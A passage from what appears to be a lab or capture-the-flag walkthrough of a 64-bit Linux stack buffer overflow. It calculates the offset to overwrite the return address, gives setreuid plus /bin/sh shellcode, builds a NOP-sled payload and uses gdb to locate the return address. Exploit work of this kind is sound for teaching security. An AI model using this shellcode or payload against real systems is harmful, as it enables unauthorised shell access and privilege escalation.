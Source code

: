 Once we have 6 x A's (`\x41`) in the return address when the application crashes we have successfully, fully overwritten the EIP (Extended Instruction Pointer i.e. the "what do I execute next?" instruction register). You can see if we go `1 byte` over, the crashed EIP register is showing no `A`'s at all, so our payload has over shot it.

`Payload = 154-5+6+14 = 169` so our entire payload going forward, **must** always be a total of `169 bytes` to correctly overwrite the EIP so it points to our shellcode.

### Shellcode

We need 2 x particular kinds of shellcode here, 1) `/bin/sh` shellcode to drop us into a shell and 2) `setreuid` shellcode to set our UID to that of the user we're trying to have the permissions for.

`/bin/sh` = `\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05`

### shellcode + pwntools

We want shellcode that calls `setreuid` to set our `uid=1003` i.e. `user3` permissions.

```sh
$ pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
```

total length of shellcode:

```python
Python 2.7.16 (default, Jul 19 2019, 23:05:17) 
[GCC 7.3.1 20180712 (Red Hat 7.3.1-6)] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> len('\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05')
54
```

Our new equation is now: `NOP + shellcode + pad + return_address = 169`, which is `NOP + 54 + 15 + 6 = 169`, so `NOP=94`.

Let's write our payload against bytes, `payload = '\x90'*94 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + '\x41'*6`

### NOP sled + Return Address

The 6 * `\x41`'s at the end are just a place holder for the return address we want- which is the address of the start of our shellcode.

How we find the a return address that will hit the start of our shellcode?

```sh
(gdb) run $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + 'A'*6")
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user1/overflow-4/buffer-overflow-2 $(python -c "print '\x90'*94 + '\x31\xff\x66\xbf\xea\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x42'*15 + 'A'*6")
new word is doggo1fjqXHj;XH1I//bin/shAPHRWHj<XH1BBBBBBBBBBBBAAAAAA

Program received signal SIGSEGV, Segmentation fault.
0x0000414141414141 in ?? ()
(gdb) x/100x $rsp-200
0x7fffffffe8c8: 0x004005a9      0x00000000      0xf7ffa268      0x00007fff
0x7fffffffe8d8: 0xffffecea      0x00007fff      0x67676f64      0x9090906f
```